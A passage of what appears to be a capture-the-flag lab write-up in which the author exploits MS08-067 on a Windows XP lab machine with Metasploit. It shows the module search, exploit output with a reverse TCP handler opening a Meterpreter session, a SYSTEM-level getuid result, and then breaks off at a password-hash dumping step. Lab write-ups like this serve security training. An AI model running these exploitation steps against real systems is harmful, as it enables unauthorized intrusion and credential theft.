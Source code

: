 
**Key Findings:**
+ **MS08-067:** Microsoft Windows system vulnerable to remote code execution.
+ **MS17-010:** Remote Code Execution vulnerability in Microsoft SMBv1 servers (EternalBlue).

The machine is likely vulnerable to MS08-067, a critical RCE vulnerability.

## Exploitation

### Metasploit Framework
Given the identified vulnerability, I decided to use Metasploit to exploit the system.

```
search ms08-067

Matching Modules
================

   #   Name                                                             Disclosure Date  Rank   Check  Description
   -   ----                                                             ---------------  ----   -----  -----------
   0   exploit/windows/smb/ms08_067_netapi                              2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption                                                     
   ...[snip target list]...
```

Executing the exploit:

```
[*] Started reverse TCP handler on <Your_IP>:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:Unknown
[*] 10.10.10.4:445 - We could not detect the language pack, defaulting to English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (177734 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (<Your_IP>:4444 -> 10.10.10.4:1035) at 2025-01-27 23:25:02 -0500
```

**Exploit Outcome:**
+ The exploit successfully triggered, and a Meterpreter session was opened.
+ The session ran with **NT AUTHORITY\SYSTEM** privileges, indicating full control over the machine.

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### Post-Exploitation
With administrative access, I proceeded to gather additional information and retrieve the flags.

Dumping Password Hashes:
